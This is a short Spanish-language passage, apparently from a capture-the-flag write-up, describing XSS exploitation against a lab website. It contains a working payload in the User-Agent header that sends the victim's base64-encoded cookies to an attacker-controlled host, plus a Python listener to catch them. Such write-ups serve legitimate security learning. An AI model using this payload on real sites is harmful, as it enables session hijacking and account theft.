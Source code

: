 # Explotación

Intentando un `xss` podemos ver que el sitio web bloquea la petición.

![20240323223746.png](20240323223746.png)

Revisando el siguiente sitio web podemos obtener mas información de como obtener una `cookie` de algún usuario administrador:

- [https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e](https://pswalia2u.medium.com/exploiting-xss-stealing-cookies-csrf-2325ec03136e)

```python
User-Agent: <script>var i=new Image(); i.src="http://10.10.14.10/?cookie="+btoa(document.cookie);</script>
```

## XSS - Cross Site Scripting

Ahora teniendo claro de como explotar la vulnerabilidad, primero iniciaremos un servidor en Python

```python
❯ python3 -m http.server 80
```

Luego enviamos la petición y vemos que el sitio web detecta el ataque

![20240323224355.png](20240323224355.png)
